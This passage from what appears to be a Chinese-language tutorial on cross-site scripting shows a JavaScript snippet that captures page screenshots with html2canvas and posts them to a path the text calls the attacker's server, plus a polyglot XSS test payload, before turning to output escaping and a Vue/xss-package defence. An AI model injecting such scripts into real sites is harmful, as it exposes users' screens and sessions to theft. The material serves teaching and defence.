 在悄无声息的情况下记录用户按键事件，想想都有点可怕~ :(

### 4）获取用户截屏

大家对html2canvas都比较熟悉，下面代码实现每隔五秒上传一张截图到攻击者的服务器 :(

```javascript
setInterval(html2canvas(document.querySelector("body")).then(canvas => {
  let xhr = new XMLHttpRequest()
  xhr.open('POST', '/screenshot')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + encodeURIComponent(canvas.toDataURL()))
}), 5000);
```

## E) 防御方法
我们可以使用以下代码检测网站是否有XSS漏洞
```javascript
jaVasCript: /*-/*`/*\`/*'/*"/**/ ( /* */ oNcliCk=alert() ) //%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e 
```

总结一下，引发XSS原因总结如下：
>在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
在 onload、onerror、onclick 等事件中，注入不受控制代码。
在 style 属性和标签中，包含类似 background-image:url("javascript:…"); 的代码（新版本浏览器已经可以防范）。
在 style 属性和标签中，包含类似 expression(…) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

所以引出两种防御方法

>1.防止 HTML 中出现注入。
2.防止 JavaScript 执行时，执行恶意代码。

所以我们可以对输出进行转义。就如何实现来说，整体的 XSS 防范是非常复杂和繁琐的，不同的上下文，如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等，所需要的转义规则不一致。我们不仅需要在全部需要转义的位置，对数据进行对应的转义。而且要防止多余和错误的转义，避免正常的用户输入出现乱码。

### 一些建议
1.采用比较成熟的框架，如 Vue/React 等。且只在可信内容上使用 v-html，永不用在用户提交的内容上。
如果必须将v-html用于用户输入上时：可以使用xss的npm包来过滤xss攻击代码
```javascript
// 引入xss包并挂载到vue原型上
import xss from 'xss';
Vue.prototype.xss = xss
```

```javascript
// 在vue.config.js中覆写html指令
chainWebpack: config => {
    config.module
        .rule("vue")
        .use("vue-loader")
        .loader("vue-loader")
        .tap(options => {
            options.compilerOptions.directives = {
                html(node, directiveMeta) {
                    (node.props || (node.props = [])).push({
                        name: "innerHTML",
                        value: `xss(_s(${directiveMeta.value}))`
                    });
                }
            };
            return options;
        });
}
```